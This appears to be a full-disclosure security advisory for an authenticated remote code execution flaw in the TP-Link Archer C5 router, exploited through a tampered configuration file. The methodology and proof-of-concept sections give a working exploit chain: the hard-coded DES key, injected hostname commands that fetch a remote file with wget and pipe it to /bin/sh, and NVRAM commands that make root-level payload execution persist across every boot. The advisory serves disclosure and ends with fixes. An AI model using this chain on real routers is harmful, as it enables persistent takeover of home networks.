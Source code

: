 ﻿# TP-Link Archer C5 Authenticated RCE Through Malicious Configuration File Upload


## Description


An authenticated remote code execution (RCE) vulnerability exists in all published firmware versions for the TP-Link Archer C5 router. By uploading a maliciously crafted configuration file, an attacker can inject OS commands that are run with root privileges.


The Archer C5 router allows administrative users to save current configuration parameters to a file, and restore parameters from a file. 
These parameters seem to be properly sanitized when a user tries to set them within the web GUI. 
However, they are not properly sanitized when set from a configuration file. 
In particular, we injected OS commands via the `wan_dyn_hostname 1 <name>` parameter within the uploaded configuration file. 
Other parameters may also be vulnerable.


## Methodology


A valid configuration file can be downloaded from the “Backup & Restore” menu in the router’s web GUI. The following HTTP request will download a backup of the router’s current configuration:


    GET /userRpm/config.bin HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Linux ia64; rv:60.0) Foxfire/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.0.1/userRpm/BakNRestoreRpm.htm
    Cookie: Authorization=Basic%20YWRtaW46cGFzc3dvcmQ%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
 
The response contains the file “config.bin”, which is the configuration file with which we will tamper.


Configuration files are obfuscated by DES-encrypting them with a hard-coded key. This hard-coded key appears to be re-used across multiple TP-Link products. Credit to Matteo Croce for discovering this hard-coded key value. [http://teknoraver.net/software/hacks/tplink/](http://teknoraver.net/software/hacks/tplink/)


Two simple python scripts are attached to encrypt and decrypt configuration files - “binify.py” and “unbinify.py” respectively. A decrypted configuration file will have parameters like these: 


    wan_dns_auto 2 0
    wan_dyn_mtu 1 1500
    wan_dyn_mtu 2 0
    wan_dyn_ucst 1 0
    wan_dyn_ucst 2 0
    wan_dyn_hostname 1 Archer_C5
    wan_stc_ip 1 0.0.0.0
    wan_stc_ip 2 0.0.0.0
    wan_stc_msk 1 0.0.0.0


We can tamper with this decrypted configuration file by adding a malicious BusyBox command to the “wan_dyn_hostname” parameter, like so:


    wan_dyn_hostname 1 `wget -O - http://bad.url/hack | /bin/sh`


We then encrypt the new malicious configuration file and upload it via the web GUI. The router will automatically reboot. Early in the boot process, when the httpd program is run, our malicious BusyBox command is executed. The pseudocode of the relevant part of httpd is something like this:

```C
    char hostname[64];
    char to_run[256];
    memcpy(hostname, some_value_somewhere, 63);
    snprintf(to_run, 256, "udhcpc -h %s -i eth0", hostname)
    system(to_run);
    // Continue setting up network interfaces and connectivity
```

There are several limitations to this exploit, even beyond the limitation of having to use BusyBox. The Dropbear SSH server and telnetd do not seem to work over the wireless lan, and the hostname is limited by the firmware to 63 characters. Exceeding this limit overwrites other settings, and breaks internet access. Furthermore, httpd must return from the system() call before it actually has any network connectivity (as the system() call we are exploiting is the one that requests our WAN IP), and the root filesystem is read-only. The above example malicious command would not work; httpd would fail to wget the url since it does not yet have internet access, it would return from the system() call, and then it would continue operating normally.


So at this point we can run a 63 character BusyBox command, on a read-only filesystem, with no trivial way to make the program wait until it has finished setting up network connectivity before executing our command. We cannot simply tell it to sleep for a few minutes and then execute, because the system() call that we inject into is blocking execution.


One thing that we can do, however, is start another instance of httpd at this point in execution. This instance of httpd will also run this system call, which leaves us in a loop that will continuously spawn more instances of httpd, but allow the parent httpd processes to continue executing and ultimately restore network connectivity. To avoid running out of memory, we terminate this loop by checking to see if our exploit has been downloaded.


## Proof of Concept


Working within the above limitations, we came up with the following shell script, which grabs a file from the internet with wget and pipes it straight to /bin/sh.
    
```bash
    cd /tmp 
    if [ ! -f B ]; then 
        httpd & 
        sleep 15
        wget http://jackdoan.com/B
        /bin/sh B
    fi
```

Or, on one line, minified:
    
```bash
    cd /tmp; if [ ! -f B ]; then (httpd & sleep 15; wget http://jackdoan.com/B; /bin/sh B) fi
```

This script is an enormous 89 characters, so we need to upload it in chunks. But how? Uploading a command causes a reboot, and a reboot refreshes the state of the router. We realized that we could create our own NVRAM variable, and reference it in subsequent commands to build a command that we eventually run.


We used the vulnerability to inject the following commands and build up an exploit:

```bash
    ; nvram set "a=cd /tmp; if [ ! -f B ]; then (htt";nvram commit
    ; nvram set "a=`nvram get a`pd & sleep 15; wget";nvram commit
    ; nvram set "a=`nvram get a` http://jackdoan.co";nvram commit
    ; nvram set "a=`nvram get a`m/B; /bin/sh B) fi"; nvram commit
```

And finally, trigger the exploit by setting the hostname to:

```bash   
    ; udhcpc; nvram get a | /bin/sh ;
```

This script stored in the router’s NVRAM will be run on each boot, and the router will appear to continue working normally. The end result is that the router will reach out to the internet, download a file, and run it as root every time it boots.


## Criticality Assessment


As shown, this vulnerability can be exploited to cause the router to reach out over the internet, grab a payload, and run it with root privileges. Therefore there is high impact on confidentiality, integrity, and availability of the device.


The process of injecting a command via the `wan_dyn_hostname` parameter of the configuration file is simple. Escaping the limitations of this command to run any arbitrary payload without disrupting normal router functionality is moderately complex.


This attack is moderately visible, as it requires at least one reboot of the device. Our POC requires 5 successive reboots, but persists until the device is factory reset


This vulnerability can be exploited by anyone with access to the web admin account. Thus, with the router’s default configuration this can be exploited via LAN / WLAN connectivity with the default admin credentials of “admin:admin”. This vulnerability can be exploited remotely across the internet, if remote management is enabled. Remote management is disabled by default.


## Suggested Fixes/Solutions
* Run the values restored from a configuration backup through the same functions that check the validity of user input from the web UI
* Force the user to set an admin password during router setup


## Comments


This vulnerability is relatively simple, leading us to believe that it has likely been found and exploited before. The defense against this attack is also incredibly simple: do not use the default administrative password. A strong password to the web administrative account will prevent this attack. Because it is so easy to exploit, and because it is so easy to mitigate, we believe that full disclosure is in the public’s best interest.


For our PoC, we injected via the “wan_dyn_hostname” parameter. However, the config file contains 1190 parameters in total, many of which may be injectable.


## Acknowledgments
* Matteo Croce for discovering the hard-coded key value of 478DA50BF9E3D2CF (http://teknoraver.net/software/hacks/tplink/)
* TP-Link, for providing a toolchain with their GPL-compliance package that allowed us to build GDB for their platform

